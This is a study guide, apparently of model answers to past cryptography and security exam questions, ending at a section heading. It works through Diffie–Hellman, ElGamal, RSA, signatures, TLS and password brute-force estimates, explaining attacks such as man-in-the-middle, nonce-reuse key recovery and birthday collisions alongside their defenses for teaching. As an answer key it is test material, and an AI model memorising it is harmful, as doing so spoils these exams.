With p=353, g=3, a=97, b=233:

$$
\begin{aligned}A&=3^{97}\bmod353=40,\\B&=3^{233}\bmod353=248,\\K&=B^{97}\bmod353=A^{233}\bmod353=160.\end{aligned}
$$

Compute using repeated squaring:

| Exponent e | 1 | 2 | 4 | 8 | 16 | 32 | 64 | 128 |
|---|---:|---:|---:|---:|---:|---:|---:|---:|
| $3^{e}$ mod 353 | 3 | 9 | 81 | 207 | 136 | 140 | 185 | 337 |

97=64+32+1 gives $185\cdot140\cdot3\bmod353=40$. 233=128+64+32+8+1 gives $337\cdot185\cdot140\cdot207\cdot3\bmod353=248$.

For the shared-secret computation, powers of 248 at exponents 1,2,4,8,16,32,64 are `248,82,17,289,213,185,337`; hence $337\cdot185\cdot248\bmod353=160$ for exponent 97.

**Exam tip.** Label A/B as public values, not private exponents. Authenticate contributions to prevent MITM; real protocols feed the shared secret into a KDF rather than using its raw integer encoding directly as an AES key.

<a id="s57"></a>
### S57 · 2019–20 · Q8(b)

**Diffie–Hellman steps and active MITM · 15 marks**

Original: [root question PDF, page 24](../../CSE405-Security_Merged.pdf#page=24). Sitting date: 07 September 2021. Printed Section B.

> **Question summary:** Write the Diffie–Hellman key-exchange steps and show the MITM attack when an adversary can intercept and modify messages.

**DH steps.** Agree public p,g. Alice chooses a and sends A=$g^{a}$ mod p. Bob chooses b and sends B=$g^{b}$ mod p. Alice computes $B^{a}$ and Bob computes $A^{b}$, both giving $g^{ab}$ mod p.

**MITM steps.** Mallory intercepts A and sends X=$g^{x}$ to Bob; intercepts B and sends Y=$g^{y}$ to Alice. Alice’s key becomes $Y^{a}$=$A^{y}$; Bob’s key becomes $X^{b}$=$B^{x}$. Mallory computes both from her own x,y and the intercepted A,B.


Mallory decrypts Alice’s traffic using the Alice–Mallory key, optionally modifies it, and re-encrypts under the Mallory–Bob key. Neither party has authenticated the claimed owner of the received DH contribution. This is why discrete-log hardness against a passive observer does not prevent the attack.

Authenticate fresh shares/transcripts through signatures verified against trusted keys, a pre-shared secret, or an independent authenticated comparison. Bind both identities and roles to prevent misassociation. Merely encrypting application messages under the resulting keys cannot retrospectively authenticate the exchange.

**Exam tip.** Show Mallory’s two calculable secrets explicitly. Multiplying A by B produces $g^{a+b}$, not the desired $g^{ab}$.

## Lecture 7 — Public-key encryption and signatures

Primary source: [lecture-07-public-key-encryption-and-signatures.pdf](<../slides/lecture-07-public-key-encryption-and-signatures.pdf>)

<a id="s05"></a>
### S05 · 2023–24 · Q7(a)

**Numerical ElGamal; IND-CPA and non-malleability · 15 marks**

Original: [root question PDF, page 9](../../CSE405-Security_Merged.pdf#page=9). Sitting date: 06 September 2025. Printed Section B.

> **Question summary:** For ElGamal with p=353, g=3, Bob’s private key b=233, Alice’s message M=123 and random r=97, compute Bob’s public key and the ciphertext, and show decryption step by step. Is the scheme IND-CPA secure and non-malleable? Justify.

**Public key and encryption.** With p=353, g=3, b=233, r=97:

$$
\begin{aligned}B&=3^{233}\bmod353=248,\\R&=3^{97}\bmod353=40,\\S&=B^{97}\bmod353=160,\\C&=123\cdot160\bmod353=265.\end{aligned}
$$

**Bob’s public key is 248; Alice sends (R,C)=(40,265).** Repeated-squaring residues for g at exponents 1,2,4,8,16,32,64,128 are `3,9,81,207,136,140,185,337`. Thus 97=64+32+1 gives R, and 233=128+64+32+8+1 gives B.

Bob computes $R^{233}\bmod353=160$. The inverse of 160 modulo 353 is 139, because $160\cdot139=22240=63\cdot353+1$. Therefore:

$$
M=265\cdot139\bmod353=123.
$$

**IND-CPA: state the group carefully.** The question uses the whole multiplicative group $\mathbb Z_{353}^{*}$; zero is not a valid message, so the slide’s M0=0 example is unavailable. There is nevertheless a distinguishing attack on the full group. Let $\chi(z)=z^{176}\bmod353$, represented as +1 or −1. Because g=3 is a primitive root, χ(g)=−1. The public R reveals r’s parity through χ(R). Hence the attacker computes $\chi(S)=\chi(B)^r$ using just that parity, then obtains:

$$
\chi(M)=\frac{\chi(C)}{\chi(S)}.
$$

Choose challenge messages M0=1 and M1=3, whose quadratic characters differ. The exposed character identifies the message. **Thus the full-group scheme as stated is not IND-CPA secure.** For the actual numbers χ(B)=−1, χ(R)=−1, χ(S)=−1 and χ(C)=+1, revealing χ(M)=−1. These values follow directly from modular exponentiation. Prime-order-group ElGamal under a suitable DDH assumption has a different security conclusion; do not generalize this failure to every ElGamal construction. Background on quadratic characters: [Stanford’s quadratic-residue notes](https://crypto.stanford.edu/pbc/notes/numbertheory/qr.html).

**Non-malleability: no.** Replace `(R,C)` by $(R,tC\bmod p)$ for known nonzero t. Decryption yields tM mod p. For t=2, `(40,177)` decrypts to 246. The adversary need not recover M to alter it predictably.

**Exam tip.** Separate confidentiality from malleability and distinguish Z*p from a suitable prime-order subgroup. A small example modulus is for arithmetic practice, not practical cryptographic security.

<a id="s06"></a>
### S06 · 2023–24 · Q7(b)

**RSA correctness proof · 10 marks**

Original: [root question PDF, page 9](../../CSE405-Security_Merged.pdf#page=9). Sitting date: 06 September 2025. Printed Section B.

> **Question summary:** Prove mathematically that RSA decryption recovers the original message, using the necessary number-theory results.

Choose distinct primes p,q; N=pq; φ(N)=(p−1)(q−1); gcd(e,φ(N))=1; and d=$e^{-1}$ mod φ(N). Therefore $ed=1+t(p-1)(q-1)$ for some integer t. We must prove $M^{ed}$≡M mod N for **every** residue M.

Work modulo p. If p divides M, both sides are 0 modulo p. Otherwise Fermat’s little theorem gives $M^{p-1}$≡1, so:

$$
M^{ed}=M\left(M^{p-1}\right)^{t(q-1)}\equiv M\pmod p.
$$

The identical argument modulo q gives $M^{ed}$≡M mod q, including the case q divides M. Since p and q are coprime, the Chinese remainder theorem implies:

$$
\begin{aligned}M^{ed}&\equiv M\pmod{pq},\\D_d(E_e(M))&=(M^e)^d\bmod N=M.\end{aligned}
$$

**Exam tip.** An Euler-theorem proof that assumes gcd(M,N)=1 is incomplete unless you address non-coprime messages. The two-case Fermat/CRT proof handles them. Correctness does not prove raw RSA is secure: deterministic RSA still fails IND-CPA.

<a id="s07"></a>
### S07 · 2023–24 · Q7(c)

**RSA signing/verifying; security of separately sending ciphertext and signature · 10 marks**

Original: [root question PDF, page 9](../../CSE405-Security_Merged.pdf#page=9). Sitting date: 06 September 2025. Printed Section B.

> **Question summary:** Define RSA signature creation and verification using Sign(d,M) and Verify(e,N,M,sig). Alice encrypts M with Bob’s RSA public key and signs M with her own private key. Can she securely send both ciphertext and signature together? Justify cryptographically.

**Signing and verification, using the lecture’s simplified notation.** Alice’s public key is (NA,eA), private key dA:

$$
\begin{aligned}\operatorname{Sign}(d_A,M)&=s=H(M)^{d_A}\bmod N_A,\\\operatorname{Verify}(e_A,N_A,M,s)&=1\quad\Longleftrightarrow\quad s^{e_A}\bmod N_A=H(M).\end{aligned}
$$

Actual RSA signature encodings are more elaborate; the question is about this mathematical model. Verification uses Alice’s authenticated public key. Encryption to Bob is $C=\operatorname{Enc}_{PK_B}(M)$.

**Can (C,s) be sent securely? Not with general message confidentiality.** Anyone can test a candidate message m by calling `Verify(PKA,m,s)`. For a low-entropy message such as BUY/SELL, an observer tries both and learns M without decrypting C. More formally, in a confidentiality challenge between distinct M0 and M1, an observer verifies the public signature against both candidates. This attack does not require reversing a hash or forging a signature.

With the simplified RSA signature, the observer can also compute $s^{e_A}=H(M)\pmod{N_A}$, supplying a public fingerprint for a dictionary attack. A signature authenticates content; it does not conceal it.

**Repair.** Encrypt the message and its signature together inside a secure, authenticated encryption construction, for example a hybrid envelope carrying `M || Sign(SKA, context || M)`. Bind sender, intended recipient and protocol context. Alternatively, a carefully specified scheme can sign the encrypted envelope; composition requirements must be stated rather than assuming any encryption/signature pair is automatically secure.


**Exam tip.** “Different keys” is not a sufficient justification for confidentiality. The decisive observation is that public verification tests candidate plaintexts.

<a id="s13"></a>
### S13 · 2023–24 · Q4(c)

**TLS handshake authentication, directional keys and authenticated records · 15 marks**

Original: [root question PDF, page 6](../../CSE405-Security_Merged.pdf#page=6). Sitting date: 06 September 2025. Printed Section A.

> **Question summary:** For the supplied TLS handshake: (i) why can a MITM not exploit unencrypted/unauthenticated ClientHello and ServerHello, in both the DH and RSA cases? (ii) Why is using one shared encryption key and one shared integrity key for both directions a bad idea? (iii) After ChangeCipherSpec, what vulnerability remains in the simplified protocol, and how would you fix it?

The figure is a **historical, simplified pre-TLS-1.3 handshake**, not a specification of current TLS.

**(i) Why plaintext hellos are acceptable.** The random nonces and offered/selected cipher suites are not secrets. They are included in each endpoint’s handshake transcript, which is authenticated by the Finished verification. If Mallory changes a hello in transit, the endpoints’ transcripts differ, so the keyed Finished checks fail, assuming sound negotiation and cryptography.

In the **authenticated DH case**, the server’s DH share/parameters are signed with the private key corresponding to its validated certificate. Mallory cannot replace them with her own usable shares while impersonating the server. The peers derive their shared secret and verify the transcript. In the **RSA key-transport case**, the client encrypts the premaster secret with the certificate-authenticated server key. Mallory cannot recover that secret or produce the required Finished authentication under derived keys. A certificate sent without chain/name validation provides no such assurance.

An attacker can still drop packets and cause failure. The claim is that plaintext hellos do not by themselves enable undetected session hijacking, not that TLS prevents all interference.

**(ii) Why separate directional keys.** If client and server use the same encryption/MAC keys and equivalent record encodings, an adversary may reflect a client’s valid record back as an apparently valid server record. Matching counters/nonces across directions can also reuse keystream or AEAD inputs under the same key. Separate keys, derived with role labels, isolate client→server and server→client cryptographic domains. Role/domain separation in authenticated encodings is also necessary design context.

**(iii) Remaining vulnerability in the shown application records.** The figure authenticates Mi but omits the record sequence number. An attacker can replay a valid encrypted record or change delivery order without forging its message MAC. Add a monotonically tracked per-direction sequence number to authenticated record data, along with record type/version/length or equivalent context:

$$
T=\operatorname{MAC}_{K_{\mathrm{dir}}}\!\left(\mathrm{seq}\parallel\mathrm{type}\parallel\mathrm{version}\parallel\mathrm{length}\parallel M\right).
$$

The receiver verifies the expected number and rejects replay/out-of-order records according to the protocol’s stream semantics. A number included only outside the MAC is editable and insufficient. The historical TLS record and Finished structures are specified in [RFC 5246, sections 6 and 7.4.9](https://www.rfc-editor.org/rfc/rfc5246).

**Exam tip.** Distinguish later authentication of earlier plaintext handshake messages from encryption of those messages. In part (iii), identify what the **given figure omits**, rather than listing unrelated TLS attacks.

<a id="s34"></a>
### S34 · 2021–22 · Q3(d)

**Symmetric/public-key comparison; key roles in signing versus encryption · 10 marks**

Original: [root question PDF, page 16](../../CSE405-Security_Merged.pdf#page=16). Sitting date: 30 October 2023. Printed Section A.

> **Question summary:** Compare symmetric and public-key cryptography. Explain how the roles of public and private keys in signatures differ from their roles in public-key encryption.

| Feature | Symmetric cryptography | Public-key cryptography |
|---|---|---|
| Keys | Shared secret | Public/private key pair |
| Encryption access | Secret holders | Anyone with recipient’s public key |
| Decryption | Shared secret holder | Recipient’s private key |
| Typical cost | Efficient bulk encryption | Costlier mathematical operations |
| Main distribution problem | Establish shared secret safely | Authenticate the public key’s owner |
| Examples | AES-based encryption, HMAC | RSA/ElGamal encryption, signatures |

**Key roles reverse by purpose, not by simply relabeling an API.** For encryption to Bob, anyone uses PKB and only Bob uses SKB to decrypt: the goal is confidentiality. For Alice’s signature, only Alice uses SKA to sign and anyone uses PKA to verify: the goals are integrity, authenticity and, with appropriate identity/key assumptions, non-repudiation.

A MAC is also symmetric but does not encrypt. A signature is not a secret message “encrypted with a private key”; it uses a dedicated secure signing algorithm/encoding. The algebraic analogy is especially visible for textbook RSA, but is not a definition for all signature schemes.

**Exam tip.** Say **whose** key is used: recipient’s public key for encryption; sender’s private key for signing. Public-key distribution still needs trust.

<a id="s43"></a>
### S43 · 2020–21 · Q6(b)

**ElGamal signature algorithm and reuse of secret k · 10 marks**

Original: [root question PDF, page 20](../../CSE405-Security_Merged.pdf#page=20). Sitting date: 25 September 2022. Printed Section B.

> **Question summary:** Explain the ElGamal signature scheme. Why must the same random k not be used for two signatures?

**ElGamal signatures are different from ElGamal encryption.** Choose prime p, generator g, private x and public y=$g^{x}$ mod p. Hash M to an integer h. Choose a fresh secret k with gcd(k,p−1)=1.

$$
\begin{aligned}r&=g^k\bmod p,\\s&=(h-xr)k^{-1}\bmod(p-1),\\\mathrm{signature}&=(r,s),\\\mathrm{verify:}\quad g^h&\equiv y^r r^s\pmod p.\end{aligned}
$$

Correctness follows because $xr+ks\equiv h\pmod{p-1}$, hence $y^rr^s=g^{xr+ks}\equiv g^h\pmod p$.

**Nonce reuse.** Two signatures with the same k have the same r. Let h1/h2 be message hashes:

$$
\begin{aligned}s_1k&\equiv h_1-xr\pmod{p-1},\\s_2k&\equiv h_2-xr\pmod{p-1},\\(s_1-s_2)k&\equiv h_1-h_2\pmod{p-1}.\end{aligned}
$$

Solve this linear congruence for k, then solve $rx\equiv h_1-s_1k\pmod{p-1}$ for x. Check candidates using $g^k=r$ and $g^x=y$. Because p−1 is composite, the coefficients may not be invertible: do **not** blindly divide as in a prime-order DSA formula.

**Worked small example.** Let p=23, g=5, x=6, y=8, and reused k=7, so r=17. For h1=13 and h2=3, signatures have s1=3 and s2=11. Subtraction gives:

$$
\begin{aligned}14k&\equiv10\pmod{22},\\7k&\equiv5\pmod{11}\quad\Longrightarrow\quad k\equiv7\pmod{11}.\end{aligned}
$$

Candidates modulo 22 are 7 and 18. k=18 is not coprime to 22 and also fails the r check; k=7 remains. Then $17x\equiv13-3\cdot7\equiv14\pmod{22}$, giving x=6 and the public-key check $5^{6}$≡8. The attacker has recovered the long-term signing key and can forge signatures.

**Exam tip.** Show both congruences and explain why k is secret and fresh. State gcd conditions before taking inverses.

<a id="s48"></a>
### S48 · 2019–20 · Q1(a)

**Digital signatures and non-repudiation · 12 marks**

Original: [root question PDF, page 22](../../CSE405-Security_Merged.pdf#page=22). Sitting date: 07 September 2021. Printed Section A.

> **Question summary:** Explain, with a figure, how digital signatures ensure non-repudiation.

Alice signs a message using a private signing key known only to her. A verifier uses her **authentic public key**, so unlike a MAC the verifier does not need a shared signing secret and cannot create the same kind of signature merely because they can verify it.

```text
Alice:      h=H(M); s=Sign(SKA, context || M)
Send:       (M,s, Alice's certificate if needed)
Verifier:   validate identity/key binding; Verify(PKA,context||M,s)
```


If the signature is valid, the key is correctly bound to Alice, the algorithm is unforgeable and the private key has remained under Alice’s control, a third party has evidence that the holder of Alice’s signing key endorsed the exact signed content. Alice cannot plausibly claim that Bob generated the signature merely because Bob knew how to verify it.

Hashing binds the signature to arbitrary-length content; signing an encoded context helps avoid interpreting the same signature as authorization for another purpose. Certificates, timestamps, key-protection records and revocation status can matter in a real dispute.

**Limit.** A signature proves a cryptographic relationship to a key, not by itself the human’s intent or absence of key theft. Non-repudiation relies on identity and operational assumptions in addition to the equation. A MAC lacks the same third-party attribution because both participants can generate it.

**Exam tip.** Explain why verification is transferable evidence and contrast it with a shared-key MAC. Include the authentic public-key assumption.

<a id="s53"></a>
### S53 · 2019–20 · Q7(a)

**Euler totient/theorem; modular inverse · 8 marks**

Original: [root question PDF, page 24](../../CSE405-Security_Merged.pdf#page=24). Sitting date: 07 September 2021. Printed Section B.

> **Question summary:** Define Euler’s totient function and Euler’s theorem, and explain computing a modular inverse using Euler’s theorem.

Euler’s totient φ(n) counts integers from 1 through n that are coprime to n. For prime p, φ(p)=p−1; for distinct primes p,q, φ(pq)=(p−1)(q−1).

**Euler’s theorem:** if gcd(a,n)=1, then $a^{\varphi(n)}\equiv1\pmod n$. Splitting off one factor gives:

$$
\begin{aligned}a\cdot a^{\varphi(n)-1}&\equiv1\pmod n,\\a^{-1}&\equiv a^{\varphi(n)-1}\pmod n.\end{aligned}
$$

Example: n=10, a=3 and φ(10)=4. Then inverse $3^3=27\equiv7\pmod{10}$, and 3·7≡1. For an RSA-related example φ(160)=64, so $7^{63}\bmod160=23$, since 7·23=161≡1.

If gcd(a,n)≠1, the inverse does not exist, so the formula must not be applied. In practice extended Euclid finds an inverse without needing φ(n): find x,y with ax+ny=1; then x is the inverse modulo n.

**Exam tip.** State the coprimality condition with the theorem. Computing φ(n) may require factorization; Euler’s expression is mathematically illuminating but not always the most efficient inverse algorithm.

<a id="s54"></a>
### S54 · 2019–20 · Q7(b)

**Modular equations and fast exponentiation · 12 marks**

Original: [root question PDF, page 24](../../CSE405-Security_Merged.pdf#page=24). Sitting date: 07 September 2021. Printed Section B.

> **Question summary:** Solve (i) x^8 ≡ 9 (mod 13), (ii) x² ≡ 2 (mod 13), and compute 3^128 mod 7. A modular-exponentiation table modulo 13 is supplied.

**(i) $x^{8}$≡9 mod 13.** Check residues x=1,…,12 by repeated squaring; x=0 plainly fails:

| x | 1 | 2 | 3 | 4 | 5 | 6 | 7 | 8 | 9 | 10 | 11 | 12 |
|---|---:|---:|---:|---:|---:|---:|---:|---:|---:|---:|---:|---:|
| $x^{2}$ mod 13 | 1 | 4 | 9 | 3 | 12 | 10 | 10 | 12 | 3 | 9 | 4 | 1 |
| $x^{4}$ mod 13 | 1 | 3 | 3 | 9 | 1 | 9 | 9 | 1 | 9 | 3 | 3 | 1 |
| $x^{8}$ mod 13 | 1 | 9 | 9 | 3 | 1 | 3 | 3 | 1 | 3 | 9 | 9 | 1 |

**Solutions: x≡2,3,10,11 mod 13.** Checking all residue classes proves completeness.

**(ii) $x^{2}$≡2 mod 13.** The squares in the table are `{1,3,4,9,10,12}`, with 0 added for x=0. None equals 2. **No solution.**

**(iii) $3^{128}$ mod 7.** Fermat gives $3^{6}$≡1 mod 7. Since 128=21·6+2:

$$
3^{128}\equiv(3^6)^{21}\cdot3^2\equiv9\equiv2\pmod7.
$$

**Exam tip.** Solve for residue classes, not merely ordinary integer roots. “Take an eighth root” is not a valid modular solution method without more group reasoning.

<a id="s55"></a>
### S55 · 2019–20 · Q7(c)

**RSA validity, repeated totients and encryption · 15 marks**

Original: [root question PDF, page 24](../../CSE405-Security_Merged.pdf#page=24). Sitting date: 07 September 2021. Printed Section B.

> **Question summary:** System A: p=83, q=101, e=3, d=5467. System B: p=17, q=11, e=7, d=23. For both compute φ(n) and φ(φ(n)), and explain validity. For system B encrypt plaintext M=3.

**System A:** p=83, q=101, N=8383.

$$
\begin{aligned}\varphi(N)&=82\cdot100=8200,\\8200&=2^3\cdot5^2\cdot41,\\\varphi(\varphi(N))&=\varphi(8200)=4\cdot20\cdot40=3200,\\ed&=3\cdot5467=16401=2\cdot8200+1.\end{aligned}
$$

Therefore e is coprime to φ(N) and d is its inverse modulo φ(N). The factors are distinct primes, so the RSA key relationships are valid.

**System B:** p=17, q=11, N=187.

$$
\begin{aligned}\varphi(N)&=16\cdot10=160=2^5\cdot5,\\\varphi(\varphi(N))&=\varphi(160)=16\cdot4=64,\\ed&=7\cdot23=161=160+1.\end{aligned}
$$

Again d is the required modular inverse. Encrypt M=3:

$$
C=3^7\bmod187=2187\bmod187=130.
$$

A decryption check gives $130^{23}\bmod187=3$.

**Exam tip.** φ(φ(N)) is not φ(N)−1 unless φ(N) happens to be prime, which it is not here. Factor the intermediate totient. Mathematical key validity does not make these tiny classroom moduli secure.

<a id="s56"></a>
### S56 · 2019–20 · Q8(a)

**ElGamal encryption proof; birthday attack on signatures · 20 marks**

Original: [root question PDF, page 24](../../CSE405-Security_Merged.pdf#page=24). Sitting date: 07 September 2021. Printed Section B.

> **Question summary:** Describe ElGamal encryption/decryption and prove decryption correctness. Give an illustrative example showing that digital signatures can be vulnerable to a birthday attack.

**ElGamal encryption.** In a specified cyclic group written multiplicatively, publish generator g and public key y=$g^{x}$; keep x private. To encrypt group element M, choose fresh random r and send:

$$
C_1=g^r,\qquad C_2=My^r.
$$

Decrypt $M=C_2(C_1^x)^{-1}$. Correctness is:

$$
C_2(C_1^x)^{-1}=Mg^{xr}g^{-rx}=M.
$$

For a small arithmetic example modulo 11, let g=2,x=4, so y=5. Encrypt M=7 with r=3: C1=8 and C2=7·$5^{3}$ mod 11=6. Bob computes $C1^{x}$=$8^{4}$ mod 11=4, whose inverse is 3, giving M=6·3 mod 11=7. State the group and message-encoding assumptions when discussing confidentiality; the correctness equation itself is not a security proof.

**Birthday attack on hash-based signatures.** Suppose signatures authenticate H(M). An attacker prepares many benign contract variants Bi and many malicious variants Aj, using harmless formatting/metadata variations within each semantic category. Search for a cross-pair with H(Bi)=H(Aj). Ask the signer to approve Bi, then attach the resulting signature to Aj: verification sees the same digest.

For an ideal b-bit digest, two sets of roughly $2^{b/2}$ variants give a constant probability of a cross-collision because there are about $2^{b}$ cross-comparisons. A toy 32-bit digest would need on the order of $2^{16}$ variants in each set, making the problem practical. A large collision-resistant digest makes this infeasible.

**Exam tip.** The attack does not forge the private-key operation. It substitutes a different message with the same signed digest, and it needs flexibility to prepare both candidate sets before obtaining the signature.

<a id="s59"></a>
### S59 · 2018–19 · Q1(d)

**Risks of signing an apparently random string · 8 marks**

Original: [root question PDF, page 26](../../CSE405-Security_Merged.pdf#page=26). Sitting date: 24 October 2019. Printed Section A.

> **Question summary:** Explain the risks if Bob agrees to sign a seemingly random string with his private key.

**A random-looking string may have important meaning.** Bob might unknowingly sign a digest of a harmful contract, an authorization token or a blinded representation whose meaning he has not reviewed. He should sign only through a defined, context-bound signing interface, not agree to apply a private-key operation to arbitrary supplied values.

**Concrete raw-RSA risk.** If Bob uses the same raw RSA key for decryption and signing, a ciphertext C looks random. An attacker who asks Bob to “sign” C obtains $C^d\bmod N$, which is exactly its decrypted plaintext. Even a restriction that blocks a particular C is ineffective if blind raw operations remain allowed: choose invertible r and ask for:

$$
\begin{aligned}X&=Cr^e\bmod N,\\Y&=X^d=C^dr\bmod N,\\Yr^{-1}&=C^d\bmod N.\end{aligned}
$$

This example depends on the **raw RSA operation and key reuse**. It is not an automatic attack against properly encoded RSA-PSS signatures on hashed messages. However, the broader semantic risk remains: Bob should know what byte sequence and protocol context he is authorizing.

Use separate keys for signing/encryption, proper secure signature encodings, application/domain separation, and a trusted display/workflow that accurately represents the signed content.

**Exam tip.** Explain both the semantic problem and, if using the algebraic example, its raw-RSA assumptions. “It looks random so it cannot be a contract” is the mistake.

## Lecture 8 — Certificates and password security

Primary source: [lecture-08-certificates-password-hashing-and-case-studies.pdf](<../slides/lecture-08-certificates-password-hashing-and-case-studies.pdf>)

<a id="s12"></a>
### S12 · 2023–24 · Q1(c)

**Untrusted key bundled with its own signature; attacker positions · 15 marks**

Original: [root question PDF, page 2](../../CSE405-Security_Merged.pdf#page=2). Sitting date: 06 September 2025. Printed Section A.

> **Question summary:** ARTBot broadcasts to learn CSBot’s phone number. CSBot replies with its number, public key, and a signature on the number. ARTBot verifies using that supplied key and caches the result. Explain how to poison the cached number as (i) an on-path attacker, (ii) a MITM attacker and (iii) an off-path attacker. Analyze a possible defense.

**Core flaw:** a signature verified with a public key supplied by the same untrusted reply proves possession of that key, not that the sender is CSBot. Mallory generates (PKM,SKM), chooses fake number NM and sends `(NM,PKM,Sign(SKM,NM))`. Verification succeeds although the identity binding is false.

**(i) On-path observer/injector.** Mallory sees the broadcast and immediately injects the forged reply, spoofing any unauthenticated sender fields needed. If ARTBot accepts the first valid response for an outstanding lookup, winning the race poisons the cache. Being on-path does not necessarily give packet-dropping power; explain the race under that capability.

**(ii) MITM able to modify/drop.** Suppress CSBot’s genuine reply and substitute Mallory’s reply. This removes the race and gives reliable poisoning under the stated protocol.

**(iii) Off-path.** Construct the same self-consistent reply blindly and inject it when ARTBot is likely to have an outstanding lookup, possibly inducing such a lookup if the application allows it. Success depends on reachability, acceptance rules and timing. The protocol specifies no unpredictable transaction ID or signed challenge, so it gives no stated cryptographic freshness obstacle. It does not follow that every unsolicited packet will be accepted: identify the lookup-window assumption.

**Defense.** Pre-provision an authentic CSBot key, or validate an identity–key certificate against a pre-trusted CA. Have ARTBot send a fresh unpredictable nonce and require the signed response to cover `CSBot identity || phone number || nonce || protocol context`. Verify the identity, trusted key, signature and outstanding nonce before caching; bound cache lifetime. A nonce alone does not defeat an on-path key-substitution attacker who can see and sign that nonce with their own key.

**Exam tip.** State both missing bindings: identity-to-key and response-to-fresh-request. Adding “a stronger signature algorithm” does not supply either.

<a id="s25"></a>
### S25 · 2022–23 · Q2(a)

**Brute-force throughput under a password-expiration policy · 12 marks**

Original: [root question PDF, page 11](../../CSE405-Security_Merged.pdf#page=11). Sitting date: 18 April 2024. Printed Section A.

> **Question summary:** A password policy requires uppercase, lowercase, numeric and special characters, minimum length 10, with monthly password changes. Estimate the minimum guesses per second needed to crack a credential, showing the calculations.

**The prompt needs assumptions for a numerical answer.** It gives minimum length 10 but no maximum, no count of permitted special symbols, and no required success probability. An exhaustive guarantee over all permitted lengths has no finite fixed search space. The conventional exam estimate uses exactly ten uniformly chosen characters and a 30-day month.

Assume 26 uppercase + 26 lowercase + 10 digits + 32 non-space special characters, giving alphabet size A=94. A common coarse estimate is:

$$
\begin{aligned}N&=94^{10}=53\,861\,511\,409\,489\,970\,176,\\T&=30\cdot24\cdot3600=2\,592\,000\ \mathrm{s},\\r_{\mathrm{worst}}&=\frac{N}{T}\approx2.078\times10^{13}\ \mathrm{guesses/s},\\r_{\mathrm{mean}}&=\frac{N}{2T}\approx1.039\times10^{13}\ \mathrm{guesses/s}.\end{aligned}
$$

**If the policy requires at least one character from every class**, count valid ten-character strings rather than all $94^{10}$. Inclusion–exclusion gives:

$$
\begin{aligned}N_{\mathrm{valid}}&=\sum_{S\subseteq\{U,L,D,S_p\}}(-1)^{|S|}\left(94-\sum_{c\in S}|c|\right)^{10}\\&=32\,333\,391\,317\,360\,640\,000,\\(|U|,|L|,|D|,|S_p|)&=(26,26,10,32).\end{aligned}
$$

The two 26-sized classes are distinct subsets even though their sizes coincide. Then:

$$
\begin{aligned}\frac{N_{\mathrm{valid}}}{T}&\approx1.247\times10^{13}\ \mathrm{guesses/s},\\\frac{N_{\mathrm{valid}}}{2T}&\approx6.237\times10^{12}\ \mathrm{guesses/s}.\end{aligned}
$$

For a uniform space of N candidates and no repeated guesses, success after g guesses is approximately min(g/N,1). Thus a target success fraction α requires roughly αN/T guesses/s; “crack within one month” must identify whether α is average-case or near certainty. Human-selected passwords are not uniform, so dictionary guessing may cost far less.

**Exam tip.** Write the assumptions and distinguish N/T from N/(2T). A monthly reset policy does not specify the attacker’s desired success probability.

<a id="s39"></a>
### S39 · 2021–22 · Q7(c)

**Self-signed SSL certificate and server authentication · 11 marks**

Original: [root question PDF, page 17](../../CSE405-Security_Merged.pdf#page=17). Sitting date: 30 October 2023. Printed Section B.

> **Question summary:** Why is buying from a shopping website that uses a self-signed SSL certificate a bad idea?

A self-signed certificate’s signature can show that its presenter possesses the corresponding private key. By itself, it does **not** establish that the key belongs to the shopping site named in the address. An attacker can generate their own self-signed certificate and intercept a connection if the user simply accepts any warning.

A normally validated certificate chain connects the server key/name to a pre-trusted root, with hostname, validity and other checks. This supplies authentication in addition to encryption. Encrypted communication to an unauthenticated attacker is still unsafe for payment information.

**Qualification:** self-signed certificates can be safe when the exact certificate/key is authenticated by another trusted method—such as deliberate pinning in a private system. The problem is an unknown public shopping site with no independent trust path, not a mathematical inability of a self-signed key to support encryption.

**Exam tip.** Explain the missing identity binding. Do not write “self-signed means no encryption” or “every CA-issued certificate is automatically trustworthy without validation.”

<a id="s49"></a>
### S49 · 2019–20 · Q1(c)

**Public security questions and password-reset account takeover · 11 marks**

Original: [root question PDF, page 22](../../CSE405-Security_Merged.pdf#page=22). Sitting date: 07 September 2021. Printed Section A.

> **Question summary:** Attackers reset Sarah Palin’s email password using publicly available personal information such as birthday, ZIP code and security-question answers. Identify the attack and evaluate the security of this password-reset feature.

This is **account takeover through weak knowledge-based account recovery**, aided by impersonation/social engineering. The attackers did not need to brute-force the existing password: they exploited an alternate reset path that treated publicly discoverable facts as identity proof.

Birthday, ZIP code and biographical/security-question answers can have low effective entropy or be directly searchable. Several such questions are not independent strong secrets when all answers come from the same public biography. The account’s effective security is limited by the weakest route that can issue a fresh credential.

A stronger recovery design uses previously enrolled recovery channels/codes, short-lived single-use unpredictable reset tokens, appropriate rate limits, audit/notification, and additional verification for sensitive accounts. The delivery channel itself must be protected. Avoid user-enumeration leaks and revoke relevant old sessions after recovery. High-entropy stored answers help if a service forces security questions, but do not fix a support workflow that can bypass them.

**Exam tip.** Name the recovery-path failure rather than calling this password brute force. An excellent normal password cannot compensate for a publicly guessable reset mechanism.

<a id="s50"></a>
### S50 · 2019–20 · Q2(b)

**Password-space size and average brute-force time · 12 marks**

Original: [root question PDF, page 22](../../CSE405-Security_Merged.pdf#page=22). Sitting date: 07 September 2021. Printed Section A.

> **Question summary:** How many 10-character passwords can be made from all 128 ASCII characters? If an attacker tests one candidate per microsecond, how long does guessing take on average?

There are 128 choices at each of ten positions, with repetition allowed:

$$
\begin{aligned}N&=128^{10}=(2^7)^{10}=2^{70}\\&=1\,180\,591\,620\,717\,411\,303\,424,\\r&=\frac1{10^{-6}}=10^6\ \mathrm{guesses/s}.\end{aligned}
$$

Assuming the target is uniform and the attacker tries distinct candidates in some order, the expected position is (N+1)/2, effectively N/2 here:

$$
\begin{aligned}t_{\mathrm{avg}}&\approx\frac{N}{2\cdot10^6}\\&\approx5.902958\times10^{14}\ \mathrm{s}\\&\approx1.8705\times10^7\ \mathrm{years}\approx18.7\text{ million years}.\end{aligned}
$$

The near-worst-case exhaustive time is approximately 37.4 million years. Converting uses 365.25 days/year; choosing 365 changes only rounding.

The result is conditional on the paper’s full 128-character alphabet and uniform selection. Real text inputs may reject control characters, and human choices are nonuniform. The paper fixes the rate, so do not silently replace it with a different hardware assumption.

**Exam tip.** Convert one microsecond to $10^{-6}$ seconds and apply the average-case factor 1/2. Write the exact password count before converting time units.

<a id="s58"></a>
### S58 · 2018–19 · Q1(a)

**Digital-certificate contents and CA role · 9 marks**

Original: [root question PDF, page 26](../../CSE405-Security_Merged.pdf#page=26). Sitting date: 24 October 2019. Printed Section A.

